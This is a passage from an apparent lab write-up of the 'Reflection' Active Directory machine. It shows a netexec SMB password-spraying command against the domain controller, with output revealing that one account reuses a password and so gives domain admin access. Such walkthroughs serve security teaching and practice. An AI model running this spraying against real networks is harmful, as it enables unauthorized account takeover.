 <figure><img src="../assets/img/from_rhys_to_domain_admin.png" alt=""><figcaption></figcaption></figure>


We could proceed with exploiting the permissions, but a simple reuse mistake leads us to escalate to Domain Admin.


```zsh
➜  ms01 netexec smb dc01 -u users.txt -p <REDACTED> --continue-on-success
SMB         10.10.219.181   445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:reflection.vl) (signing:False) (SMBv1:False)
SMB         10.10.219.181   445    DC01             [-] reflection.vl\Administrator:<REDACTED> STATUS_LOGON_FAILURE 
SMB         10.10.219.181   445    DC01             [-] reflection.vl\labadm:<REDACTED> STATUS_LOGON_FAILURE 
SMB         10.10.219.181   445    DC01             [-] reflection.vl\krbtgt:<REDACTED> STATUS_LOGON_FAILURE 
SMB         10.10.219.181   445    DC01             [-] reflection.vl\Georgia.Price:<REDACTED> STATUS_LOGON_FAILURE 
SMB         10.10.219.181   445    DC01             [-] reflection.vl\Michael.Wilkinson:<REDACTED> STATUS_LOGON_FAILURE 
SMB         10.10.219.181   445    DC01             [-] reflection.vl\Bethany.Wright:<REDACTED> STATUS_LOGON_FAILURE 
SMB         10.10.219.181   445    DC01             [-] reflection.vl\Craig.Williams:<REDACTED> STATUS_LOGON_FAILURE 
SMB         10.10.219.181   445    DC01             [-] reflection.vl\Abbie.Smith:<REDACTED> STATUS_LOGON_FAILURE 
SMB         10.10.219.181   445    DC01             [-] reflection.vl\Dorothy.Rose:<REDACTED> STATUS_LOGON_FAILURE 
SMB         10.10.219.181   445    DC01             [-] reflection.vl\Dylan.Marsh:<REDACTED> STATUS_LOGON_FAILURE 
SMB         10.10.219.181   445    DC01             [+] reflection.vl\Rhys.Garner:<REDACTED> 
SMB         10.10.219.181   445    DC01             [-] reflection.vl\Jeremy.Marshall:<REDACTED> STATUS_LOGON_FAILURE 
SMB         10.10.219.181   445    DC01             [-] Connection Error: Error occurs while reading from remote(104)
SMB         10.10.219.181   445    DC01             [-] reflection.vl\svc_web_prod:<REDACTED> STATUS_LOGON_FAILURE 
SMB         10.10.219.181   445    DC01             [-] reflection.vl\svc_web_staging:<REDACTED> STATUS_LOGON_FAILURE 
SMB         10.10.219.181   445    DC01             [+] reflection.vl\dom_rgarner:<REDACTED> (Pwn3d!)
```
